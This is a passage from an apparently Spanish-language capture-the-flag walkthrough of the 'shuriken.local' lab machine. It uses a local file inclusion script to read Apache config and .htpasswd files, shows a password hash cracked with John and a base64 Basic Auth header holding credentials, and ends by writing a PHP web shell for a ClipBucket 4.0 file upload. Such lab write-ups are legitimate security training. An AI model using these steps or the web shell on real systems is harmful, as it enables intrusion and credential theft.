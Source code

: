 
- Ahora usamos el LFI para buscar archivos del sistema que puedan contener credenciales para probarlas en la ventana de Login que nos despliega el subdominio "broadcast.shuriken.local".

- Revisamos archivos de configuración de `apache`:

```bash
$./exploitLFI.sh /etc/apache2/ports.conf
```

- Este archivo nos muestra otro:

```bash
$./exploitLFI.sh /etc/apache2/sites-enabled/000-default.conf
```

- Y este archivo nos muestra otro en el que posiblemente hayan credenciales:

```bash
$./exploitLFI.sh /etc/apache2/.htpasswd
```

```js
developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
```

- Encontramos un usuario con su `hash`, lo crackeamos con John:

```bash
$john -w:/usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt hash
```

- Obtenemos la contraseña para el usuario "developers" y la usamos para entrar en el login que nos desplegaba al entrar en el subdominio "broadcast.shuriken.local".

<br><br>
# ClipBucket v4.0 Arbitrary File Upload (Authenticated):  

- Al entrar podemos ver que se trata de aplicación web denominada `"ClipBucket v4.0"`, buscamos vulnerabilidades para esta aplicación web.

```bash
$searchsploit clipbucket 4.0
$searchsploit -x php/webapps/44250.txt
```

- Podemos encontrar un `Arbitrary File Upload` el cual se lo puede efectuar tanto autenticado como desautenticado, en este caso lo haremos de la segunda manera ya que hemos ganado acceso y podemos usar la autorización que tenemos como el usuario developer.

- Para obtener dicha autorización, recargamos la página interceptando la petición con Burpsuite y en el header podemos ver la linea:

```Authorization: Basic ZGV2ZWxvcGVyczo5OTcyNzYxZHJtZnNscw==```

(Podemos notar que el usuario y la contraseña están codificadas en base64).

- Con la autorización ubicada, ahora procedemos a crear un archivo `"pwned.php"` el cual usaremos para ejecutar comandos del sistema víctima:

```php
<?php echo passthru($_GET['cmd']); ?>
```
